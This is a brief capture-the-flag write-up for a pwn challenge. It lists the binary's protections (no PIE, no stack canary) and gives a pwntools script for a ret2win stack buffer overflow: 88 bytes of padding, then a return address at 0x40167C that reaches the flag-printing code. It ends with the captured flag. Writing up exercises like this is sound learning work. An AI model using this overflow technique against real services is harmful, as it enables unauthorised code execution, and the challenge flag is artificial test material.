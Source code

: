 ```yaml
---
created: 2025-03-02T08:49
updated: 2025-03-18T02:29
points: 200
solves: 11
---
```


```bash
$ checksec --file=server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0 server
```

- No PIE: Addresses are fixed.
- No Stack Canary: Free-for-all stack smashing.

We should be able to simply return to the print flag part.

```python
from pwn import *

r = remote('localhost', 21504)

offset = 88
flag_addr = 0x40167C

payload = b'A' * offset + p64(flag_addr)
r.sendline(payload)
r.interactive()
```

```flag
ATHACKCTF{0xdeadbeef_5t4ck_8453d_8uff3r_0v3rf10w}
```